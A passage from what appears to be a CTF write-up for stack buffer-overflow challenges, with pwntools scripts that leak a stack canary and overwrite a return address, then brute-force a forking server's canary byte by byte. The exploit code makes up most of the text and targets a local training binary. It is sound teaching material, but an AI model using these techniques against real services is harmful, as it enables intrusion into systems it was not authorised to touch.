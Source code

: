 ```python
p.sendline(str(len(buf_2)))
p.send(buf_2)

while True:
    data = p.recvline()
    if buf_2 in data:
        start_index = data.find(buf_2) + len(buf_2) - 1  # -1 As we also take the fake "B" LSB
        print(f'Data is:{data} index:{start_index}')
        canary = struct.unpack('<Q', data[start_index: start_index + 8])[0] & 0xffffffffffffff00
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@Canary value:{hex(canary)}')
        break

buf_3 = b'C' * 408 + struct.pack('<Q', canary) + b'D' * 8 + struct.pack('<H', 0xb73a)
p.sendline(str(len(buf_3)))
p.send(buf_3)

p.interactive()
```

## Challenge 15

Server listening on port 1337. We can connect via `nc 0.0.0.0 1337`.

The remote service forks for every new connection, while the parent process never dies. \
Upon forking, the parent canary is used for the child process - hence, it never changes.

Such scenario is perfect to leak the canary in byte-after-byte manner. \
Brute force every canary byte - if the check fails, continue to the next value. Otherwise, continue to the next byte. 

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/babymem_level15.0'
elf = ELF(BINARY)
addr_main = elf.symbols['main']
addr_win = elf.symbols['win_authed']

def clear_junk(p):
    p.recvuntil('In this level, there is no "win" variable')
    p.recvuntil("Let's see what happened")
    p.recvuntil("Let's try it now!")
    p.recvuntil("Goodbye!")

def is_correct_byte(p):
    data = p.recvuntil(b'*** stack smashing detected ***', timeout=2)
    print(f'Data:{data}, RESULT:{len(data)==0}')
    return len(data)==0

current_buf = b'A' * 72
while len(current_buf) < 80:
    for num in range(256):
        with remote('0.0.0.0', 1337) as p:
            candidate = current_buf + num.to_bytes(1, 'little')

            p.sendline(str(len(candidate)))
            p.send(candidate)
            clear_junk(p)

            if is_correct_byte(p):
                print(f'NEW BYTE FOUND:{num}')
                current_buf = candidate
```